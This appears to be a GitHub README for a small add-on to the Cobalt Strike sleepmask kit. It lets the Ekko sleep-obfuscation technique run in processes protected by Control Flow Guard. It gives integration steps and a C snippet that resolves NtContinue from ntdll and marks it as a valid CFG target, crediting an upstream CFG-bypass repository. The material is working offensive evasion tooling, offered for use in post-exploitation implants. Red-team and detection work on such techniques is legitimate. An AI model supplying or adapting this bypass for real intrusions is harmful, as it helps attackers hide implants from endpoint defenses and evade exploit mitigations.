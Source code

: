 # sleepmask_ekko_cfg
Code snippets to add on top of cobalt strike sleepmask kit so that ekko can work in a CFG protected process.

All credits to [@Icebreaker](https://github.com/IcebreakerSecurity)

## Usage
1. Enable ekko sleep in sleepmask kit
2. Include cfg.c
3. Add below codes before ekko sleep
```
   PVOID NtContinue = KERNEL32$GetProcAddress(KERNEL32$GetModuleHandleA("ntdll.dll"),"NtContinue");
   if (!markCFGValid_nt(NtContinue))
    {
        return;
    }
```
4. Compile

## Reference
1. https://github.com/IcebreakerSecurity/Ekko_CFG_Bypass
